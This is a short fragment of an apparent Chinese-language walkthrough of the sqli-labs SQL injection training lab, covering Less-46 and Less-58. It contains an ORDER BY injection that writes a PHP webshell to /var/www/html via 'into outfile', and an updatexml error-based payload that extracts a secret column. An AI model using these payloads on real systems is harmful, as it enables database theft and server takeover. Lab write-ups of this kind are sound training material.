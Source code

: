 通过更改 `’a’` 来进行注入
```
id username password
1	2	a
8	admin	admin
```
**into outfile**：
注入天书里面提供了 `lines terminated by` 姿势用于 order by 的情况来 getsgell： 

>?sort=1 into outfile "/var/www/html/less46.php" lines terminated by 0x3c3f70687...

`LINES TERMINATED BY：设置行与行之间的分隔符`
# 54-65 --挑战

## Less-58
```
?id= 0'or updatexml(1,concat(0x26,(select group_concat(secret_BYWL SEPARATOR '<br>') from mhz4mmxrjk),0x26),1)%23
```
完结

